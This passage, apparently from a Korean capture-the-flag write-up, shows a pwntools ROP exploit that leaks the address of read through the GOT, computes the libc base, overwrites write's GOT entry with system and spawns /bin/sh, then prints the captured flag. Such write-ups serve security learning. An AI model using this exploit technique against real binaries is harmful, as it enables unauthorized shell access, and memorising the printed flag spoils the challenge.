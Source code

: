```
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(write_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(write_plt)
payload += b'A' * 0x4
payload += p32(bss)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read_addr = u32(p.recvn(4))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')
log.info(f'libc base : {hex(libc_base)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p32(system))
p.sendline(b"/bin/sh")

p.interactive()
```

위와 같이 코드를 작성해보았다. read 실제 주소를 알아내

libc 베이스와 system 주소를 계산한 후,

이 system 주소를 덮어쓴 후 /bin/sh\x00 덧붙여 /bin/sh를 실행하는 코드이다.
  
<br>

</br> 

<img width="1080" height="596" alt="image" src="https://github.com/user-attachments/assets/99e2c78e-3646-471e-a8b4-8f98cd2fa3f1" />

해당 코드를 실행해보니 플래그 값을 얻을 수 있었다.  

<br>

</br> 

```
DH{511346c4606e748addd555cc9947aacf67990d504fac432f5dbb0f14eea8363b}
```

